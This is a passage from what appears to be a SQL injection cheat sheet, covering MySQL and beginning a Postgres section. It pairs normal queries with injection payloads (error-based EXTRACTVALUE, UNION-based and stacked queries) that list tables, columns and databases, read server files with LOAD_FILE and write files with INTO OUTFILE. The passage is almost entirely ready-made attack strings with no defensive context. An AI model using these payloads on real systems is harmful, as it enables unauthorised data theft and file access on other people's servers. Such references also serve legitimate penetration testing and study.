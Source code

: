 ### List Tables:

- Normal
    - `SHOW TABLES;`
- Error based
    - `' EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT table_name FROM information_schema.tables WHERE table_schema = 'database_name' LIMIT 1 OFFSET 1)))--`
- Union Based
    - `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables WHERE table_schema = 'database_name' --`
- Stacked Queries:
    - `; SHOW TABLES; --`

### List columns:

- Normal
    - `SHOW COLUMNS FROM table_name;`
- Error based
    - `' EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name' LIMIT 1 OFFSET 1)))--`
- Union Based
    - `' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'table_name' --`
- Stacked Queries:
    - `; SHOW COLUMNS FROM table_name; --`

### Read Files:

- Normal
    - `SELECT LOAD_FILE('/path/to/file');`
- SQLi
    - `' UNION SELECT LOAD_FILE('/path/to/file'), NULL --`

### Write Files:

- Normal
    - `SELECT * INTO OUTFILE '/path/to/file' FROM table_name;`
- SQLi
    - `' UNION SELECT column_name FROM table_name INTO OUTFILE '/path/to/file' --`

## Postgres

### List databases:

- Normal
    - `SELECT datname FROM pg_database;`
- Error based
    - `' (SELECT CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 1) AS integer))--`
- Union Based
    - `' UNION SELECT datname, NULL FROM pg_database --`
- Stacked Queries:
    - `; SELECT datname FROM pg_database; --`
